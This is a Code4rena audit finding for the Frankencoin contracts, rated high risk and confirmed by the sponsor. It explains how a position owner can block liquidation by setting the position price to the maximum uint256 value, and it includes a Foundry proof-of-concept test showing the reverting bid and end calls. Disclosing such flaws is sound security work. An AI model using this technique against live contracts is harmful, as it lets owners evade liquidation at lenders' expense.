 ## Tags

- bug
- 3 (High Risk)
- primary issue
- satisfactory
- selected for report
- sponsor confirmed
- H-05

# [Position owners can deny liquidations](https://github.com/code-423n4/2023-04-frankencoin-findings/issues/481) 

# Lines of code

https://github.com/code-423n4/2023-04-frankencoin/blob/main/contracts/Position.sol#L159
https://github.com/code-423n4/2023-04-frankencoin/blob/main/contracts/Position.sol#L307


# Vulnerability details

## Impact
The owner of a vulnerable position can deny being liquidated by setting the price to be `type(uint256).max`, making every call to `tryAvertChallenge` fail due to an overflow.

This means that if it's advantageous enough the owner can choose to keep `zchf` and leave the collateral stuck. This could happen in any scenario where a collateral is likely to loose it's value, for example, de-pegs, runs on the bank, etc.

## Test Proof
Here's a snippet that can be pasted on `GeneralTest.t.sol`:
```solidity
    function test_liquidationDenial() public {
        test01Equity(); // ensure there is some equity to burn
        address posAddress = initPosition();
        Position pos = Position(posAddress);

        skip(15 * 86_400 + 60);

        alice.mint(address(pos), 1001);

        vm.prank(address(alice));
        pos.adjustPrice(type(uint256).max);

        col.mint(address(bob), 1001);
        uint256 first = bob.challenge(hub, posAddress, 1001);

        bob.obtainFrankencoins(swap, 55_000 ether);

        vm.expectRevert();
        bob.bid(hub, first, 10_000 ether); 

        skip(7 * 86_400 + 60);

        vm.expectRevert();
        hub.end(first, false);
    }
```
